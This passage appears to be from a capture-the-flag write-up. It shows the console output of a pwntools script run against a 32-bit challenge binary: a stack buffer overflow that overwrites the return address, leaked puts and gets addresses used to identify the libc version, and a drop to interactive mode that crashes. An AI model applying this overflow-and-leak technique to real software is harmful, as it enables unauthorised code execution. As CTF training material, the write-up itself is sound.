 When we run it:

```
$    python idLibc.py
[+] Opening connection to chal.utc-ctf.club on port 4902: Done
[*] '/Hackery/utc/shelltime/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xff8834c0 | 00 00 00 00 00 00 00 00 |
0xff8834c8 | 00 00 00 00 00 00 00 00 |
0xff8834d0 | 00 00 00 00 00 00 00 00 |
0xff8834d8 | 00 00 00 00 00 00 00 00 |
0xff8834e0 | ff ff ff ff ff ff ff ff |
0xff8834e8 | ff ff ff ff ff ff ff ff |
0xff8834f0 | c0 a5 f6 f7 00 a0 04 08 |
0xff8834f8 | 08 35 88 ff 8b 86 04 08 |
Return address:
 0x0804868b

Input some text:
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xff8834c0 | 30 30 30 30 30 30 30 30 |
0xff8834c8 | 30 30 30 30 30 30 30 30 |
0xff8834d0 | 30 30 30 30 30 30 30 30 |
0xff8834d8 | 30 30 30 30 30 30 30 30 |
0xff8834e0 | 30 30 30 30 30 30 30 30 |
0xff8834e8 | 30 30 30 30 30 30 30 30 |
0xff8834f0 | 30 30 30 30 30 30 30 30 |
0xff8834f8 | 30 30 30 30 10 84 04 08 |
Return address:
 0x08048410



puts address: 0xf7df9b40
gets address: 0xf7df92b0
Offset:   0x890
Symbol0:  puts
Symbol1:  gets
Address0: 0xf7df9b40
Address1: 0xf7df92b0
Possible libc: output-symbols-libc6-i386_2.19-10ubuntu2_amd64.so
Possible libc: output-symbols-libc6_2.19-10ubuntu2_i386.so
Possible libc: output-symbols-libc6_2.19-10ubuntu2.3_i386.so
Possible libc: output-symbols-libc6-i386_2.19-10ubuntu2.3_amd64.so
Possible libc: output-symbols-libc6_2.27-3ubuntu1_i386.so
[*] Switching to interactive mode
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$  
```
